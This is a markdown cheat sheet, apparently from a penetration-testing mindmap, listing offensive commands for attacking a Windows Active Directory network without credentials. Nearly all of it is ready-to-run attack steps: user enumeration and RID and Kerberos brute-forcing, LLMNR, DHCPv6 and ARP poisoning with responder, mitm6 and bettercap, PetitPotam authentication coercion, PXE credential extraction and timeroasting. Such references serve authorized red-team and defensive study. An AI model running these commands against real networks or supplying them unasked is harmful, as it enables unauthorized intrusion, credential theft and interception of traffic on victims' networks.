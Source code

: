 # No Credentials

## Scan network >>> Vulnerable host
- `nxc smb <ip_range>`
- `nmap -sP -p <ip>`
- `nmap -Pn -sV --top-ports 50 --open <ip>`
- `nmap -Pn --script smb-vuln* -p139,445 <ip>`
- `nmap -Pn -sC -sV -oA <output> <ip>`
- `nmap -Pn -sC -sV -p- -oA <output> <ip>`
- `nmap -sU -sC -sV -oA <output> <ip>`

## Find DC IP
- `nmcli dev show <interface>`
- `nslookup -type=SRV _ldap._tcp.dc._msdcs.<domain>`
- `nmap -p 88 --open <ip_range>`

## Zone transfert
- `dig axfr <domain_name> @<name_server>`

## Anonymous & Guest access on SMB shares
- `nxc smb <ip_range> -u '' -p ''`
- `nxc smb <ip_range> -u 'a' -p ''`
- `enum4linux-ng.py -a -u '' -p '' <ip>`
- `smbclient -U '%' -L //<ip>`

## Enumerate LDAP >>> Username
- `nmap -n -sV --script 'ldap*' and not brute -p 389 <dc_ip>`
- `ldapsearch -x -H <dc_ip> -s base`

## Enumerate Users >>> Username
- `nxc smb <dc_ip> --users`
- `nxc smb <dc_ip> --rid-brute 10000 # bruteforcing RID`
- `net rpc group members 'Domain Users' -W '<domain> -l <ip> -U '%'`

## Bruteforce users >>> Username
- `kerbrute userenum -d <domain> <userlist>`
- `nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm= '<domain>',userdb=<user_list_file>" <dc_ip>`

## Poisoning >>> poisoning SMB || poisoning LDAP || poisoning HTTP
- LLMNR / NBTNS / MDNS
  - `responder -l <interface>`
- ⚠️ DHCPv6 (IPv6 prefered to IPv4)
  - `mitm6 -d <domain>`
  - `bettercap`
- ⚠️ ARP Poisoning
  - `bettercap`
  - `asreqroast`
    - `Pcredz -i <interface> -v` >>> Hash found ASREQ

## Coerce >>> Coerce SMB
- Unauthent PetitPotam (CVE-2022-26925) @CVE@
  - `petitpotam.py -d <domain> <listener> <target>`

## PXE
- no password >>> Credentials (NAA account)
  - `pxethief.py 1`
  - `pxethief.py 2 <distribution_point_ip>`
- password protected >>> PXE Hash
  - `tftp -i <dp_ip> GET "\xxx\boot.var"`
  - `pxethief.py 5 '\xxx\boot.var'`

## TimeRoasting >>> timeroast hash
- `timeroast.py <dc_ip> -o <output_log>`